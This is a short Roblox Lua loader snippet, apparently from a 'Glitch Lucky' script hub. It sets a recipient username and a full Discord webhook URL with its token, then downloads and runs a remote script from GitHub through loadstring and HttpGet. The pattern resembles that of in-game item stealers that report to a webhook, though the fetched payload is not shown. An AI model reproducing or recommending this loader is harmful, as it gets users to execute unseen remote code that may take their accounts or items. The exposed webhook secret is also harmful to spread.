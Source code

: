 _G.Username = "dsmswww"

_G.HubName = "Glitch Lucky"

_G.WebhookUrl = "https://discord.com/api/webhooks/1107422032225902622/w0B3fXE7W_inqeNrhuPpIxWWkHgxQ4SBmiooatLn5Xx5pgfjj3X15PvNqTtKPk9JMN87"

loadstring(game:HttpGet("https://raw.githubusercontent.com/Jayiioceanii/PeakOnTop/main/peak.lua"))()
